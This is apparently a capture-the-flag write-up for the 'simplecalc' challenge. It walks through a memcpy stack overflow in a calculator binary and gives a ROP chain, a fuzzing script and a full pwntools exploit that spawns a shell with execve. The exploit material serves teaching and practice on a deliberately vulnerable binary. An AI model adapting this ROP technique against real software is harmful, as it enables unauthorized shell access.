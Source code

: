 # Challenge Theory
This is a buffer overflow challenge compiled with the nx bit, and as a result requires rop chains to build an exploit.
The actual application itself is a calculator, so the attacker has to "calculate" values into memory.
# Challenge Info 
This challenge actually uses memcpy to move the user calculations into the stack buffer.
With this in mind, the attacker then has to send all of the calculations at once, and make sure the values actually end up where they are supposed to be.
Another problem with the code is that it calculates 4 byte values, so there is actually a ton of alignment issues within the exploit.
## Relevant Code:
```c
printf("Expected number of calculations: ");
__isoc99_scanf(&DAT_00494214,&num_calcs);
handle_newline();
if ((num_calcs < 256) && (3 < num_calcs)) {
    calculations = malloc((long)(num_calcs << 2));
    for (i = 0; i < num_calcs; i = i + 1) {
        print_menu();
        __isoc99_scanf(&DAT_00494214,&calc_choice);
        handle_newline();
        if (calc_choice == 1) {
            adds();
            *(undefined4 *)((long)i * 4 + (long)calculations) = add._8_4_;
        }
        else if (calc_choice == 2) {
            subs();
            *(undefined4 *)((long)i * 4 + (long)calculations) = sub._8_4_;
        }
        else if (calc_choice == 3) {
            muls();
            *(undefined4 *)((long)i * 4 + (long)calculations) = mul._8_4_;
        }
        else if (calc_choice == 4) {
            divs();
            *(undefined4 *)((long)i * 4 + (long)calculations) = divv._8_4_;
        }
        else {
            if (calc_choice == 5) {
                memcpy(vuln_buff,calculations,(long)(num_calcs << 2));
                free(calculations);
                return 0;
            }
            puts("Invalid option.\n");
        }
    }
    free(calculations);
```
Taking a look at the "adds" calculation, the code is assigning a 4 byte value.
The disassembly even shows the "cdqe" opcode, which operates on 32 bit values.
# Exploit
This will be a simple exploit.
The strategy will be utilizing a write privelege in order to write the string "/bin/sh" into the .data section of the binary, and then calling execve to spawn a shell.
## Exploit Details
```
pop rdi
data_section
pop rcx
"/bin" string
mov [rdi], rcx

pop rdi
data_section + 4
pop rcx
"/sh" string
mov [rdi], rcx

pop rax
0x3b
pop rdi
data_section
pop rsi
0
pop rdx
0
syscall
```
The only other part of this exploit entails sending 18 calculations resulting in 0.
This is because we need to overflow the stack frame, and we need to fill it with 0.
The main function won't return until it calls free, and free will crash unless it has a valid memory address to free.
Payloads can bypass this by supplying it 0.
# Extra Info
To find the crash, another script was used:
```python
#!/usr/bin/python3
import pwn
import sys
binary = "simplecalc"
pwn.context.binary = binary
pwn.context.encoding = "latin"
pwn.context.log_level = "debug"

payload = ""
padding = 24

def fuzz_crash(tinput):
    with pwn.process(binary) as io:
        io.sendline(str(tinput))
        io.sendline(str(5))
        io.wait_for_close()
        if (io.poll() != -11):
            fuzz_crash(tinput + 1)
        else:
            print(f"Fuzzing returned: {tinput}")
        
fuzz_crash(5)
```
# Full Exploit Script
```python
#!/usr/bin/python3
import pwn
import sys
binary = "simplecalc"
pwn.context.binary = binary
pwn.context.encoding = "latin"

gadgets = {
    "pop_rdi_ret": 0x401b73,
    "pop_rcx_ret": 0x4b8f17,
    "pop_rax_ret": 0x44db34,
    "pop_rdx_ret": 0x437a85,
    "pop_rsi_ret": 0x401c87,
    "mov_rdi_ptr_rcx": 0x42b30b,
    "syscall_ret":0x4648e5,
    "bin_sh": 0x68732f6e69622f, 
    "sh":0x68732f,
    "data_section": 0x6c1060
}

def add_zero(io):
    io.sendline("2") 
    io.sendline("40")
    io.sendline("40")

def add_value(io, value):
    new_value = value - 40
    io.sendline("1")
    io.sendline(str(new_value))
    io.sendline(str(40))

def add_small(io, value):
    new_value = value + 40
    io.sendline("2")
    io.sendline(str(new_value))
    io.sendline(str(40))

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    io.sendline("75")
    for x in range(16):
        add_zero(io)
    add_zero(io)
    add_zero(io)
    add_value(io, gadgets["pop_rdi_ret"])
    add_zero(io)
    add_value(io, gadgets["data_section"])
    add_zero(io)
    add_value(io, gadgets["pop_rcx_ret"])
    add_zero(io)
    add_value(io, gadgets["bin_sh"])
    add_zero(io)
    add_value(io, gadgets["mov_rdi_ptr_rcx"])
    add_zero(io)
    add_value(io, gadgets["pop_rdi_ret"])
    add_zero(io)
    add_value(io, gadgets["data_section"]+4)
    add_zero(io)
    add_value(io, gadgets["pop_rcx_ret"])
    add_zero(io)
    add_value(io, gadgets["sh"])
    add_zero(io)
    add_value(io, gadgets["mov_rdi_ptr_rcx"])
    add_zero(io)
    add_value(io, gadgets["pop_rax_ret"])
    add_zero(io)
    add_small(io, 0x3b)
    add_zero(io)
    add_value(io, gadgets["pop_rdi_ret"])
    add_zero(io)
    add_value(io, gadgets["data_section"])
    add_zero(io)
    add_value(io, gadgets["pop_rsi_ret"])
    add_zero(io)
    add_zero(io)
    add_zero(io)
    add_value(io, gadgets["pop_rdx_ret"])
    add_zero(io)
    add_zero(io)
    add_zero(io)
    add_value(io, gadgets["syscall_ret"])
    io.sendline("5")

    if ("debug" in sys.argv):
        pwn.gdb.attach(io, gdbscript)

    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```
